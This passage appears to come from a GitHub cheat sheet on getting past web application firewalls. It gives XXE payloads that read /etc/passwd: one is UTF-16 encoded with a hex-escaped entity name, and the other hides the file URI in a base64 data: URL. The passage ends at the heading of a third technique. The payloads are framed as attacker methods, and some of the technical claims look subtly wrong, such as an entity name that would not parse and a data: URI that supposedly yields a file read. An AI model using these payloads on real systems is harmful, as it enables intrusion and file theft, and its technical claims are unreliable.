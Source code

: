 ### **🔥 Obfuscating Techniques to bypass WAF detection 🔥**  

>Attackers use **obfuscation techniques** to **bypass Web Application Firewalls (WAFs)** and **evade signature-based detections**. Below are **advanced techniques** for XML, JavaScript, and JSON input manipulation.


- 💡 **Craft payloads** to **each cloud provider** (AWS, Cloudflare, GCP).  
- 💡 **Encoding tricks** like **Base64, Unicode, and JSON nesting**.  
- 💡 **Updated bypass methods**, such as **WebSockets and DNS rebinding**.  

----  

# XML Payload Obfuscation for WAF Bypass  

>Attackers can **encode** or **fragment** XML payloads to bypass WAF detection.  
>WAFs may block known **XXE payloads**, but attackers can **encode entities** to evade detection.  

#### **🚀 UTF-16 Encoding**  

```xml
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE foo [
  <!ENTITY &#x78;&#x78;&#x65; SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```

- WAFs expecting **UTF-8** may fail to detect **XXE** in **UTF-16** encoding.  

### **2️⃣ XML Nested Base64 Encoding (Bypassing Pattern Matching)**  

>Some WAFs detect keywords like `SYSTEM`, but attackers can use **base64 encoding**.  

#### **🚀 Example: Base64 Encoded XXE**  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "data:text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk">
]>
<root>
    <data>&xxe;</data>
</root>
``` 

- The entity **decodes to** `file:///etc/passwd` at runtime.  
- WAF **does not detect direct file inclusion**.  

### **3️⃣ XML Comment Fragmentation (Splitting Payloads)**  
